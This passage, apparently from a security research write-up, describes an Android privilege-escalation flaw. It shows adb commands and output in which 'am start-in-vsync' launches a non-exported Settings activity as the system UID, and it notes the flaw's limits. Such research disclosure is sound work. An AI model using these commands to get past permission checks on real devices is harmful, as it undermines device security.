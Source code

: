 The authentication bypass becomes crystal clear when you compare the behavior of both commands side by side:

```bash
$ adb shell am start -n com.android.settings/.SubSettings
In AMSC.onCommand: callingUid=2000, callingPid=3873
Starting: Intent { cmp=com.android.settings/.SubSettings }

Exception occurred while executing 'start':
java.lang.SecurityException: Permission Denial: starting Intent { flg=0x10000000 cmp=com.android.settings/.SubSettings } from null (pid=3873, uid=2000) not exported from uid 1000
        at com.android.server.wm.ActivityTaskSupervisor.checkStartAnyActivityPermission(ActivityTaskSupervisor.java:1184)
        at com.android.server.wm.ActivityStarter.executeRequest(ActivityStarter.java:1223)
        at com.android.server.wm.ActivityStarter.execute(ActivityStarter.java:865)
        at com.android.server.wm.ActivityTaskManagerService.startActivityAsUser(ActivityTaskManagerService.java:1321)
        at com.android.server.wm.ActivityTaskManagerService.startActivityAsUser(ActivityTaskManagerService.java:1262)
        at com.android.server.am.ActivityManagerService.startActivityAsUserWithFeature(ActivityManagerService.java:3245)
        at com.android.server.am.ActivityManagerShellCommand.runStartActivity(ActivityManagerShellCommand.java:869)
        at com.android.server.am.ActivityManagerShellCommand.onCommand(ActivityManagerShellCommand.java:251)
        at com.android.modules.utils.BasicShellCommandHandler.exec(BasicShellCommandHandler.java:97)
        at android.os.ShellCommand.exec(ShellCommand.java:38)
        at com.android.server.am.ActivityManagerService.onShellCommand(ActivityManagerService.java:10406)
        at android.os.Binder.shellCommand(Binder.java:1143)
        at android.os.Binder.onTransact(Binder.java:945)
        at android.app.IActivityManager$Stub.onTransact(IActivityManager.java:5733)
        at com.android.server.am.ActivityManagerService.onTransact(ActivityManagerService.java:2721)
        at android.os.Binder.execTransactInternal(Binder.java:1411)
        at android.os.Binder.execTransact(Binder.java:1350)

$ adb shell am start-in-vsync -n com.android.settings/.SubSettings
In AMSC.onCommand: callingUid=2000, callingPid=3914
In ATMS.mUiHandler: callingUid=1000, callingPid=1306
Starting: Intent { cmp=com.android.settings/.SubSettings }
```

The output speaks for itself: notice how the calling UID changes from 2000 (shell) to 1000 (system) when using `start-in-vsync`. This UID elevation enables the LaunchAnyWhere attack, as activities that would normally reject our shell-level access now see us as the trusted system server.

## Limitations and Attack Surface

While this vulnerability is certainly interesting, it comes with some significant constraints that limit its practical exploitation potential. The most important limitation is that this flaw only exists within the ActivityManagerShellCommand interface. You can't trigger it through standard ATMS Binder IPC calls.
